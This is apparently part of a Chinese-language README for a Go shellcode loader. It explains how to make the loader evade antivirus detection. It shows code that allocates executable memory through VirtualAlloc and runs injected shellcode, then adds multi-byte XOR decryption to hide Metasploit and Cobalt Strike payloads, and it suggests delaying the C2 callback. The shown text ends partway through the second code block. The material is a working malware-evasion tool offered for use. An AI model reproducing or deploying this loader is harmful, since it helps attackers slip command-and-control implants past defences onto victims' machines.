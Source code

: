 ## 如何将一个不免杀的源码变为免杀的？

以 go\_VirtualAlloc 模板为例，下面的代码没有对 shellcode 做加密操作，这样的 loader 如果使用 msf 或者 cobaltstrike 生成的 shellcode 或被杀，因为 cobaltstrike msf 的 shellcode 存在时间太长了，已经被各大厂商做了特征识别。

```bash
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}

func main() {

    ciphertext := []byte{{{Shellcode}}}

    Ldr1(ciphertext)
}
```

我们需要做的就是改变 shellcode 模样，使用多字节 xor 来改变 shellcode。如下所示

在同样的的 api 调用下  
增加一些基础的多字节 xor 就可以完成免杀，已集成在自带模板中  
也可以增加延迟触发（在运行后不会马上请求 c2 服务器）而是等一段时间

```bash
func XorDecrypt(plaintext []byte, key []byte) []byte {
    ciphertext := make([]byte, len(plaintext))
    keyLength := len(key)
    for i, byte := range plaintext {
        keyByte := key[i % keyLength]
        encryptedByte := byte ^ keyByte
        ciphertext[i] = encryptedByte
    }
    return ciphertext
}

func DecryptData(v2 []byte) []byte {
    key := []byte{{{Key}}}
    v222 := XorDecrypt(v2, key)
    return v222
}

func WriteMemory(inbuf []byte, destination uintptr) {
    for index := uint32(0); index < uint32(len(inbuf)); index++ {
        writePtr := unsafe.Pointer(destination + uintptr(index))
        v := (*byte)(writePtr)
        *v = inbuf[index]
    }
}

func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
```